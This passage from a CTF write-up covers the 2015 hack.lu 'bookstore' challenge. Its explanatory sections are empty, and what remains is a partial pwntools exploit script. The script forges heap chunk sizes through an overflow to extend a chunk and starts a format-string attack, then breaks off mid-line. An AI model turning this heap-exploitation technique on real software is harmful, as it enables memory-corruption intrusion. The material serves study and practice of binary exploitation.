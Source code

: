 ## 2015 hacklu bookstore

### 功能

### 利用思路

### Exploit

```python
from pwn import *
context.terminal = ['gnome-terminal', '-x', 'sh', '-c']
if args['DEBUG']:
    context.log_level = 'debug'
context.binary = "./books"
book = ELF("./books")
if args['REMOTE']:
    p = remote('127.0.0.1', 7777)
else:
    p = process("./books")
log.info('PID: ' + str(proc.pidof(p)[0]))
libc = ELF('./libc.so.6')


def edit(order, name):
    p.recvuntil('5: Submit\n')
    p.sendline(str(order))
    p.recvuntil(' order:\n')
    p.sendline(name)


def delete(order):
    p.recvuntil('5: Submit\n')
    p.sendline(str(order + 2))


def submit(payload):
    p.recvuntil('5: Submit\n')
    p.sendline('5' + payload)
    p.recvuntil('Order 1: ')
    p.recvuntil('Order 2: Order 1: ')


def fmt(fmtstr, argv):
    log.info('step 1. chunk extend.')
    payload = fmtstr  # fmtstr
    payload = payload.ljust(0x80, 'f')
    payload += p64(0)  # order 2's prev_size
    payload += p64(0x151)  # order 2's size --> fake large
    payload += '\x00' * 0x140  # padding for fake chunk
    payload += p64(0x150)  # fake chunk's next chunk's prev_size
    payload += p64(
        0x21
    )  # fake chunk's next chunk's size, bypass the check: !prev_inuse(nextchunk)
    payload += '\x00' * 0x10  # padding for fake chunk's next chunk
    payload += p64(0x20) + p64(
        0x21)  # bypass the check: in order not to consolidate
    edit(1, payload)  # modify order 2's chunk size to 0x140
    gdb.attach(p)
    delete(2)  # now, unsorted bin\'s head chunk size 0x140.

    log.info('step 2. format vulnerability')
    # when submit, the overall order content is :
```